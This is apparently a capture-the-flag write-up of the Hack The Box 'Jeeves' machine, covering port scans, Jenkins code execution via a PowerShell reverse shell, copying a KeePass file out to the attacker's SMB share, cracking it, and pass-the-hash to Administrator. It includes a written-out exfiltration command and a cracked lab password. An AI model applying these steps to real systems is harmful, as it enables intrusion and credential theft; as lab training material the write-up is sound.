# Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Thu Aug 18 17:34:46 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv jeeves.htb
Nmap scan report for jeeves.htb (10.129.1.109)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-18 17:34:46 CDT for 26s
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
50000/tcp open  ibm-db2      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Aug 18 17:35:12 2022 -- 1 IP address (1 host up) scanned in 26.60 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Thu Aug 18 17:36:20 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80,135,445,50000 jeeves.htb
Nmap scan report for jeeves.htb (10.129.1.109)
Host is up, received echo-reply ttl 127 (0.047s latency).
Scanned at 2022-08-18 17:36:21 CDT for 46s

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-19T03:36:29
|_  start_date: 2022-08-19T03:32:46
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 60400/tcp): CLEAN (Timeout)
|   Check 2 (port 33595/tcp): CLEAN (Timeout)
|   Check 3 (port 20613/udp): CLEAN (Timeout)
|   Check 4 (port 45793/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 5h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 18 17:37:07 2022 -- 1 IP address (1 host up) scanned in 47.62 seconds
```

We see IIS 10.0 on port 80, RPC on port 135, SMB open on port 445, and Jetty on port 50000. I also ran a UDP and vuln scan but didn't get anything helpful back.

- nothing in logs
- no vuln plugins?
# Enumeration

## Feroxbuster

Running a directory scan on port 80 didn't return anything help, although running a scan on port 50000 reveals the directory `/askjeeves` which is where a Jenkins instance is served.

```
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves => http://jeeves.htb:50000/askjeeves/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/search => http://jeeves.htb:50000/askjeeves/search/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/about => http://jeeves.htb:50000/askjeeves/about/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/assets => http://jeeves.htb:50000/askjeeves/assets/
302      GET        0l        0w        0c http://jeeves.htb:50000/askjeeves/columns =>
[ ... ]
```

## Website

We see Jenkins at `/askjeeves` and enumerating this doesn't return much but there is a `/systeminfo` page which reveals the user running Jenkins (`kohsuke`) as well as some other helpful information.





I end up going to `hacktricks.xyz` and find some good info on testing Jenkins.
https://book.hacktricks.xyz/cloud-security/jenkins

I end up getting code execution by creating a new job although the next method on the page is execution through Groovy script which also works after watching IppSec's video. First, I modify `Invoke-PowerShellTcp.ps1` from Nishang's shell list:
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1



Followed by using powershell to download and execute this script...



I make sure my Python http server is running.



And also Netcat to catch the reverse shell. Which works! We get a shell back as `kohsuke` which is expected.



Right away, I run `whoami /priv` and see that `SeImpersonatePrivilege` is enabled. Based off of previous boxes, I know that this means Juicy Potato is a good candidate for privilege escalation.
https://github.com/ohpe/juicy-potato/releases/tag/v0.1



Before getting our hands dirty, I also drop `winPEAS.bat` on the box and execute it.



This reveals an interesting file named `CEH.kdbx`. A quick Google search says this is a KeyPass database. Another quick Google search says we can use `keypass2john` to convert it to a file that `john` is able to crack.



Since SMB is on this system, I'll start a python SMB server with the following command in order to upload the file to our local machine.

`python3 smbserver.py share .`



https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py

I'll use Powershell to upload it to my share.

`copy-item -Path C:\Users\kohsuke\Documents\CEH.kdbx -Destination \\10.10.14.64\share`


And we crack it as so:



This reveals credentials: `kohsuke:moonshine1`

I don't already have KeePass, so I end up searching `apt` and use `kpcli`.



`kpcli` has a pretty good `--help` menu so I eventually come across a hash that might be helpful for passing the hash to SYSTEM/administrator.





I use `pth-winexe` and get a shell back as Administrator!



As an optional step, we can also get a shell as SYSTEM with Juicy Potato. I do this by downloading Netcat and Juicy Potato on the box...





And run JP as so:





Before getting too excited and collecting our flags, we see there is no `root.txt` in the Admin desktop, but rather `hm.txt` which tells us to look deeper. 



Before leaving this directory, I try a bunch of switches for `dir` and find that `dir /R` reveals a file named `hm.txt:root.txt:$DATA`. 



Finally, we can read the stream `root.txt` in `hm.txt` using PowerShell as so:



